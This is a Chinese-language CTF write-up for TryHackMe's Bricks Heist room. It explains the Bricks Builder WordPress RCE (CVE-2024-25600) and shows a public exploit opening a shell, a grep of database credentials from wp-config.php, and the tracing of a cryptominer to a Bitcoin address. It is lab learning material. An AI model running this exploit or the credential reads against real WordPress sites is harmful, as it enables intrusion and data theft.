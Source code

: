 ```yaml
---
icon: pen-to-square
date: 2025-04-30
tags: 
title: TryHack3M_Bricks Heist
category:
  - 项目
---
```

## 前言
本题运用了wordpress漏洞[**_CVE-2024-25600_**](https://medium.com/@chinamayjoshi/unauthenticated-remote-code-execution-rce-vulnerability-in-bricks-builder-for-wordpress-a12132c91cc1)
我们可以提前配置wordscan，WPScan 是一款针对 WordPress 的安全扫描工具，用于检测插件、主题漏洞、用户枚举及配置问题。

### 漏洞原理
Bricks <= 1.9.6版本，漏洞为远程代码执行 （RCE），
漏洞存在于Bricks\Query类中，Bricks\Query 类用于管理 WordPress 帖子查询的渲染。
在`Bricks\Query` 类包含的方法`prepare_query_vars_from_settings`中第十行存在eval函数，会处理`$php_query_raw`参数
```php
$user_result = eval( $php_query_raw ); // Execute the user code
```
接下来需要我们找到一种方法来传入`$php_query_raw`参数
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250503124903.png)
发现在多处都实例化了`Bricks\Query`类

在`Bricks\Ajax::render_element($element)`处的实例化尤为显眼
Bricks 使用这个方法来显示编辑器内块/元素的预览。

实例代码：
```php
if ( ! empty( $loop_element ) ) 
	{ $query = new Query( $loop_element ); // CUT FOR BREVITY 
	}
```
该方法可通过`admin-ajax.php` 端点和 `WordPress Rest API` 调用。

以上方方法调用的权限检测如下
```php
if ( bricks_is_ajax_call() && isset( $_POST ) ) {
    self::verify_request();
}

elseif ( bricks_is_rest_call() ) {
    // REST API (Permissions checked in the API->render_element_permissions_check())
}
```
`bricks_is_ajax_call()`分支中会调用`Ajax::verify_request()`，检查当前用户是否有权访问 Bricks 构建器
但是，如果此方法是通过 REST API 调用的，则不会调用`Ajax::verify_request()`。
因为REST API会进行回调检查，
关于`render_element`调用的路由表(注册路径)
```php
// Server-side render (SSR) for builder elements via window.fetch API requests
		register_rest_route(
			self::API_NAMESPACE,
			'render_element',
			[
				'methods'             => 'POST',
				'callback'            => [ $this, 'render_element' ],
				'permission_callback' => [ $this, 'render_element_permissions_check' ],
			]
		); 

```

但在`render_element_permission_check`方法中没有执行任何权限检查，代码略
该方法仅检查请求是否包含有效的`nonce`，`nonce`只能防止重放攻击，并不能进行权限检查


## 解题过程
先用wpscan 扫描一下目标服务器，
```bash
wpscan --url https://bricks.thm/
```
发现存在bricks 且版本为1.9.5，刚好对应了此前的漏洞
于是搜索漏洞会发现许多github项目的exploit，例如
[Chocapikk/CVE-2024-25600：未经身份验证的远程代码执行 – Bricks <= 1.9.6](https://github.com/Chocapikk/CVE-2024-25600)

现在，运行漏洞利用

```shell
C:\Users\l1709\Desktop\work\CVE-2024-25600-main>python exploit.py -u https://10.10.73.131
[*] Nonce found: 4982bac29f
[+] https://10.10.73.131 is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
```

```bash
# ls
650c844110baced87e1606453b93f22a.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

获得隐藏的txt文件
```bash
# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```

```bash
# cat wp-config.php | grep DB_
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'root' );
define( 'DB_PASSWORD', 'lamp.sh' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
```

```
systemctl list-units --type=service --state=running
```

用于列出当前系统中 ​**​所有正在运行的系统服务（Services）​**​。这是 Systemd 服务管理器的核心命令，可帮助管理员监控系统状态。

可以发现可疑的服务
```bash
ubuntu.service                                 loaded active running TRYHACK3M     
```

继续输入
```bash
systemctl cat ubuntu.service
```
**查看 systemd 服务的完整配置文件内容​**，自动定位服务配置文件的存储位置，无需手动搜索。
```bash
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target
```
可疑的服务名称为
`nm-inet-dialog`

来到可以的目录下
```
# dir /lib/NetworkManager
VPN             nm-dispatcher           nm-openvpn-service
conf.d          nm-iface-helper         nm-openvpn-service-openvpn-helper
dispatcher.d    nm-inet-dialog          nm-pptp-auth-dialog
inet.conf       nm-initrd-generator     nm-pptp-service
nm-dhcp-helper  nm-openvpn-auth-dialog  system-connections
```
这个命令有点奇怪，四不像,但是不可以使用cd命令

经过搜索查看，最终发现inet.conf的文件十分可疑
```bash
# cat  /lib/NetworkManager/inet.conf | less
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
2024-04-08 10:46:04,743 [*] confbak: Ready!
2024-04-08 10:46:04,743 [*] Status: Mining!
2024-04-08 10:46:08,745 [*] Miner()
2024-04-08 10:46:08,745 [*] Bitcoin Miner Thread Started
2024-04-08 10:46:08,745 [*] Status: Mining!
2024-04-08 10:46:10,747 [*] Miner()
2024-04-08 10:46:12,748 [*] Miner()
2024-04-08 10:46:14,751 [*] Miner()
2024-04-08 10:46:16,753 [*] Miner()
2024-04-08 10:46:18,755 [*] Miner()
2024-04-08 10:46:20,757 [*] Miner()
```
疑似比特币挖矿程序。
对ID进行解码[From Hex, From Base64, From Base64 - CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex\('None'\)From_Base64\('A-Za-z0-9%2B/%3D',true,false\)From_Base64\('A-Za-z0-9%2B/%3D',true,false\)&input=NTc1NzMxNGU2NTQ3NGU1OTYyNDg0YTRmNjU2ZDc4NzQ1NzU0NGU0MjRlNTc0NjQ4NTU1NDQ2Njg0ZDMwNzA3MzU5MzA2ODRiNjE2YzcwNTU1YTdhNTY2YjUyMzM1Mjc2NTQ2YjY4NmI2NTU3NTI0ODY0N2E1MjVhNTc0NjZmNzc1NDZiNjQzMzRkNmIzNDdhNTI2ZDY4NWE2MjU1MzEzNDU5MzE2ODczNjM2YjM1MzY2MjQ3MzE1YTRkMzA0NTMxNTk1NTY0NDc2MTMwMzU1ODY0NDg2YzYxNTc0NTRhMzU1NzU0NGE1NjRlNDUzOTU5NTU2ZTRhNjg1MjQ2NDk3YTU5MzIzNTUzNjMzMDM5NDg1MjZhNGE2YjUyNDY0YTdhNTQ2ZDcwNmI2NTQ2NmM1MjUwNTQzMDNk)
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250504115516.png)
以上地址存在重复部分，选取一部分进行比特币地址检索,[BTC地址bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa | CoinEx多币种区块浏览器](https://explorer.coinex.com/btc/address/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa)
```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250504115700.png)
直接搜索地址`bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r`
发现新闻报道，属于名为lockbit的勒索组织。

